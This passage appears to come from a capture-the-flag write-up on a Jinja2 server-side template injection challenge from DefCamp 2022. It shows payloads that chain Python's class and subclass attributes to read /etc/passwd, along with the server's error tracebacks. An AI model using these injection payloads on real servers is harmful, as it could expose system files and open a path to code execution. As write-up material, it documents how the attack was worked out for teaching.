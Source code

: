 ``` 791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be ```

Sending ```7*7``` returns 49 so we can confirm the SSTI:

<p align="center">
  <img src="/images/writeups/DefCamp2022/Misc/2_1_77.png" width="70%"/>
</p>

Now, the first thing is to understand the process within the server. We were getting errors with the following payloads:

```python
# Payload
7*'7'
'''
7777777
Connection closed by foreign host.
'''

# Payload 2
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
'''
Traceback (most recent call last):
  File "/home/ctf/server.py", line 8, in <module>
    print(Template("{{"+inputval+"}}").render())
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 1291, in render
    self.environment.handle_exception()
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 925, in handle_exception
    raise rewrite_traceback_stack(source=source)
  File "<template>", line 1, in top-level template code
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 474, in getattr
    return getattr(obj, attribute)
jinja2.exceptions.UndefinedError: 'str object' has no attribute 'class'
Connection closed by foreign host.
'''

# Payload 3
[].class.base.subclasses()
'''
Traceback (most recent call last):
  File "/home/ctf/server.py", line 8, in <module>
    print(Template("{{"+inputval+"}}").render())
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 1291, in render
    self.environment.handle_exception()
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 925, in handle_exception
    raise rewrite_traceback_stack(source=source)
  File "<template>", line 1, in top-level template code
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 474, in getattr
    return getattr(obj, attribute)
jinja2.exceptions.UndefinedError: 'list object' has no attribute 'class'
Connection closed by foreign host.
'''

# Payload 4
len(''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read())
# Errors...
```
